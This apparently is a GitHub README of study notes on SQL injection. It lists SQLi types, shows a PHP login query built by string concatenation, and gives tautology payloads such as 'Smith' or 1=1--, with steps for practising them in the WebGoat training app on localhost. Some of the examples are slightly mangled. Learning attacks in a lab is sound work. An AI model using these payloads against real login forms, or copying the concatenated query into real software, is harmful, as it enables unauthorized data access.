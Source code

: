 # SQL-Injection

## Impact of SQL Injection :

- Extract sensitive information

- Misusing authentication details

- Delete data & Drop tables

## Types of SQL Injection

SQL Injection

1. In-Band SQLi
   
     a. Error Based
     
     b. Union Based
     
2. Blind SQLi

     a. Boolean Based
     
     b. Time Based
    
3. Out of bound SQLi

## SQL Injection 

   SAMPLE:
   
   $statement = " SELECT * FROM users WHERE username = '$user' AND password = '$password' ";
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath' AND password = 'dowlath' ";
   
   HACKER:
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath OR '1' == '1' --' AND password = '$password' ";
   
   Example :
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5-- 

## TEST

1. Google find " webgoat8 "

2. Download github jar file from corresponding location.

3. If you downloaded latest version *.jar file , it will support latest version of java. So before run the jar file check once you java -version.

4. Run the jar file => D:\Spring-Boot-Security\sql-injection-webgoat-8.0>java -jar "webgoat-server-8.0.0.M17.jar"

5. Login in the browser -> http://localhost:8080/WebGoat/login

6. If you are not registered create the user and access.

7. Execute the sql inject commands.

   As follows patterns,
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5-- 
